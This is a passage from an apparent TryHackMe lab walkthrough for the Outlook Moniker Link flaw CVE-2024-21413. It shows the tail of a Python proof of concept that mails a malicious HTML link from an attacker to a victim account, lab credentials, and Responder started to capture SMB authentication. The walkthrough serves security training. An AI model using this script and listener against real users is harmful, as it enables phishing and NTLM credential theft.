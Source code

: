 ```python
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

The PoC:

* Takes an attacker & victim email. Normally, you would need to use your own SMTP server (this has already been provided for you in this room)
* Requires the password to authenticate. For this room, the password for **attacker@monikerlink.thm** is **attacker**
* Contains the email content (html\_content), which contains our Moniker Link as a HTML hyperlink
* Then, fill in the "subject", "from" and "to" fields in the email
* Finally, it sends the email to the mail server

Let’s use Responder to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be `-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used.

Starting Responder on our AttackBox

```shell-session
root@attackbox:# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

-- cut for brevity --

[+] Listening for events...
```
